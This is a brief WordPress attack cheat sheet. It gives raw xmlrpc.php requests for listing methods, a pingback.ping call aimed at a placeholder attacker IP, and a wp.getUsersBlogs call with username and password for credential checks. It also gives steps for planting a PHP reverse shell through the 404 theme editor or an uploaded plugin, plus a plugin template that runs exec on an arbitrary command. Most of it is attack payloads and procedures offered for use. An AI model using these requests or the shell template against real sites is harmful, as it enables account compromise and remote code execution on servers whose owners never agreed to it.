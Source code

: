 ### List possible methods using rpc api
```
POST /xmlrpc.php HTTP/1.1
Host: <domain>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Length: XXX

<methodCall>  
<methodName>system.listMethods</methodName>  
<params></params>  
</methodCall>  
```

### Example - send a ping
```
POST /xmlrpc.php HTTP/1.1
Host: <domain>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Length: XXX

<methodCall>  
<methodName>pingback.ping</methodName>  
<params><param>  
<value><string>http://XXX.XXX.XXX.XXX:XX</string></value>  
</param><param><value><string>https://<domain>/wordpres?p=1</string>  
</value></param></params>  
</methodCall>  
```

### Methods for enumeration
```
wp.getUserBlogs
wp.getCategories
metaWeblog.getUsersBlogs

<methodCall>  
<methodName>wp.getUsersBlogs</methodName>  
<params>  
<param><value>username</value></param>  
<param><value>password</value></param>  
</params>  
</methodCall>  
```


### Upload reverse shell with admin access - using custom 404 page
```
Appearance > Editor/Theme Editor > Theme Files > 404/404 Template > Selected file content > <phpReverseShell> > Update File
```

### Upload reverse shell with admin access - using malicious plugin
```
Plugins > Add New > Upload Plugin > Browse > Choose PHP reverse shell (rev.zip) > Install > Activate Plugin
```

### Template of PHP reverse shell
```
<?php
/**
* Plugin Name: Wordpress Reverse Shell
* Author: Haxxor
*/

exec("<command>")  
?>  
```

